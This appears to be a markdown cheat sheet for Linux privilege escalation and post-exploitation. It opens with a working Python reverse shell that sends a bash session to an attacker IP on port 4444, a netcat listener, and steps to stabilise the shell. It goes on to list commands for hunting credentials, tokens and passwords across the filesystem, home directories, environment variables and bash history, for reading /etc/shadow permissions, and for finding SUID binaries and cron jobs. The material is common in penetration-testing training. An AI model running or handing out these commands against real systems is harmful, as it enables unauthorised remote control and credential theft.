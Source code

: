 # BASIC PRIVILEGE ESCALATION ENUMERATION & EXPLOITATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system. Most of them should be exploitable with the help of [GTFOBins](https://gtfobins.github.io/).

## Python Reverse Shell & Netcat Listener
It connects a compromised machine to an attacker's IP for remote command execution, while a Netcat listener waits on a specified port to receive incoming connections from such reverse shells.
#### Python TTY Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.x.y",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Upgrading to a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run the below command to spawn a better-featured pretty-looking bash shell without tab autocomplete or the arrow keys.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- STEP-2: Run the below command to set or modify the PATH environment variable in a Unix-like OS.
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
- STEP-3: Run the below command to access term commands such as `clear`.
```
export TERM=xterm-256color
```
- STEP-4: Background the Session using the SHORTCUT: `CTRL + Z`.
- STEP-5: Run the below command to turn off the terminal echo (allowing tab autocompletes, arrow keys, and Ctrl + C process killing).
```
stty raw -echo; fg; reset
```
- STEP-6: (Optional) Run the below command to Set the terminal size to 200*200 for better readability.
```
stty columns 200 rows 200
```
---
#### Here is a Semi-combined Command
```
python3 -c 'import pty;pty.spawn("/bin/bash")' && export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp && export TERM=xterm-256color
```
---
## BASIC POST-EXPLOITATION ENUMERATION COMMANDS

### Finding Secret Files
- Searching for files containing sensitive information such as API keys, tokens, or passwords. It lists files based on specific keywords often associated with sensitive data.
```
find / -type f -exec ls -lsha {} + | grep -E -i '.secret|secret|token|key|api|password|username|db_password|mysql_password|mysql_user|databasepassword|mysql_root_password|mysql_password|credentials|creds|pass'
```

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding SGID Files
- Finding the files with SGID (Set Group ID) execution permissions of the file Owner's group which could be used to escalate privileges.
```
find / -perm -2000 -type f 2>/dev/null
```

### Finding Capabilities of Files
- Recursively listing the capabilities of all files on the root file system, suppressing error messages.
```
getcap -r / 2>/dev/null
```

### Checking Permissions on /etc/passwd & /etc/shadow
- This command checks the permissions of the /etc/passwd file, which may be writable and could allow unauthorized modifications.
```
ls -la /etc/passwd && ls -la /etc/shadow
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
cat /etc/crontab && ls /etc/cron.* && crontab -l && ls /var/spool/cron/crontabs
```

### Searching for Passwords in Home Directory
- Searches for occurrences of the term "password" recursively within the /home directory, which may help locate files containing sensitive information.
```
cd /home && grep -rnH "password"
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Environment Variables
- This command lists all environment variables, which can sometimes include sensitive information like passwords.
```
env
```

### Accessing User's Bash History
- The following command displays the contents of the `.bash_history` file, which may contain sensitive information such as passwords that were previously entered in the terminal.
```
cat .bash_history
```

### Checking User and Host Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.
```
whoami && id && hostname
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!
